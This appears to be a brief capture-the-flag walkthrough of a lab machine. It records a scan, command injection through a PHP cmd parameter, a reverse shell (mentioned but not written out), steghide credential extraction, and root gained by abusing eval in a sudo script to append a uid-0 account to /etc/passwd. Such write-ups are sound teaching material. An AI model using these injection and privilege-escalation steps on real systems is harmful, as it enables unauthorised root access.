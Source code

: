 1. NMAP scan -p22, p80    
2. FFUF
3. http://10.10.57.52/assets/ -> blank  
4. http://10.10.57.52/assets/index.php
5. ### we have a php vulnerability based on below concept   
6. ![image](https://github.com/user-attachments/assets/7e465e80-e5e8-4eec-a5d1-abc07b31bd21)
7. http://example.com/vuln.php?cmd=ls
8. disable_functions = system, exec, shell_exec, passthru, popen, proc_open  
9. $user = escapeshellarg($_GET['user']);    
10. ### expoliting the vulnerability    
11. http://example.com/vuln.php?cmd=id  
12. we get value in base64    
13. Now, lets enter reversehell and url encode     
14. We got reverse shell as www-data  
15. ![image](https://github.com/user-attachments/assets/ec76b8ce-9b6a-4c49-8709-5657bc7308d4)  
16. In images folder we have oneforall.jp and yuei.jpg  
17. wget http://10.10.57.52/assets/images/yuei.jpg    
18. wget http://10.10.57.52/assets/images/oneforall.jpg  
19. We found Hidden_Content directory which has base64 encode passphrase  
20. There is a user Deku but we are unable to view the user.txt file in the folder
21. file oneforall.jpg is corrupt
22. It has magic bytes of png
23. Lets change to jpg
24. https://en.wikipedia.org/wiki/List_of_file_signatures
25. steghide only supports jpg
26. steghide --extract -sf oneforall.jpg
27. It asks for passphrase
28. Stores it to creds.txt
29. we get password for deku
30. we find user flag
31. sudo -l ->  /opt/NewComponent/feedback.sh
32. mkpasswd -m md5crypt -s
33. Password: 123
34. $1$tbnb4vuW$eI8Md2cXWjeQIUMFAmSvg1  
35. test:$1$MgMMCplp$bx1JXnOEyOXMkHf9VnHgK0:0:0:test:/root:/bin/bash
36. 'test:$1$MgMMCplp$bx1JXnOEyOXMkHf9VnHgK0:0:0:test:/root:/bin/bash' >> /etc/passwd
37. su test
38. We get access as root
39. We get root flag
40. ## root flag exploit
41. In the feedback.sh code there is a line "eval "echo $feedback""
42. it exceutes eval $feedback
43. if we enter abc >> file.txt, it echoes, abc to file.txt
44. so, we create a password on our system and make it in the format user is store in /etc/passwd file
45. Then we echo the same to /etc/passwd
46. as eval() is a system function, it get executed
47. 
  

